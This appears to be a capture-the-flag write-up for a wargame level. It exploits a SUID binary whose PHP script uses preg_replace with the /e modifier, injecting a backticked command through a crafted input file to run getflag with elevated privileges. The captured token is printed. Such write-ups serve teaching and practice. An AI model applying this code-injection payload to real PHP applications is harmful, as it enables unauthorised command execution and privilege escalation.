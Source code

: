 ### Solution

1. **List files and check permissions:**

	```bash
	ls -l
	```

	You will see the SUID binary owned by `flag06`:

	```
	-rwsr-x--- 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x--- 1 flag06 level06  356 Mar  5  2016 level06.php
	```

	The binary `level06` is **SUID**, meaning it executes with `flag06`'s privileges.

2. **Analyze `level06.php`:**

	The PHP script reads the contents of the input file, then runs a vulnerable `preg_replace` with the `/e` modifier that evaluates the input as PHP code.

	This allows **remote code execution** by passing specially crafted input files.

3. **Create a malicious payload to execute `getflag`:**

	Create a file `/tmp/flag06.txt` with the following content:

	```bash
	echo '[x ${`getflag`}]' >/tmp/flag06.txt
	```

	This payload exploits the `/e` modifier to execute the `getflag` command.

4. **Run the SUID binary with the malicious payload:**

	```bash
	./level06 /tmp/flag06.txt
	```

	The binary will:

	* Run the PHP script with your payload
	* Execute the `getflag` command with `flag06` privileges
	* Print the flag to stdout

	Output:

	```
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	 in /home/user/level06/level06.php(4) : regexp code on line 1
	```

	You’ve successfully executed `getflag` with `flag06`’s privileges.
